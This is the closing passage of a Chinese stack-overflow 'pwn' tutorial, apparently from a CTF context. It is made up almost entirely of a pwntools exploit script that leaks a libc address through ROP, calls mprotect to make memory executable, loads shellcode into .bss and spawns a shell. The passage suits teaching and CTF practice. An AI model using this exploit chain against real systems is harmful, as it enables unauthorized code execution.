 ```
bss_start=0x600A88
start_addr=0x4004F0
'''
  0x00000000004006b1 : pop rsi ; pop r15 ; ret
  0x0000000000001b8e : pop rdx ; ret
'''

payload1='a'*0x80+'b'*8+p64(prdi)+p64(1)+p64(prsi)+p64(file.got['write'])+'c'*8+p64(file.plt['write'])
payload1+=p64(start_addr)
r.recvuntil('n')
r.send(payload1)
write_got=u64(r.recv(8))
sleep(1)

libc_base=write_got-libc.sym['write']
mprotect=libc_base+libc.sym['mprotect']
prdx=libc_base+0x1b8e
print hex(libc_base)
print hex(mprotect)
print hex(prdx)

payload2='a'*0x80+'b'*8+p64(prdi)+p64(0x600000)+p64(prsi)+p64(0x1000)+'c'*8+p64(prdx)+p64(7)+p64(mprotect)+p64(start_addr)
r.recvuntil('n')
r.send(payload2)
sleep(1)
debug()

payload3='a'*0x80+'b'*8+p64(prdi)+p64(0)+p64(prsi)+p64(bss_start)+'c'*8+p64(prdx)+p64(48)+p64(file.plt['read'])+p64(start_addr)
r.recvuntil('n')
r.send(payload3)
sleep(1)
r.send(asm(shellcraft.amd64.linux.sh(),arch='amd64'))
debug()

payload4='a'*0x80+'b'*8+p64(bss_start)
r.recvuntil('n')
r.send(payload4)

r.interactive()
```



## 总结

这篇文章主要介绍了栈的基础知识和一些栈溢出pwn的方法、原理，希望大家读完能有所收获。

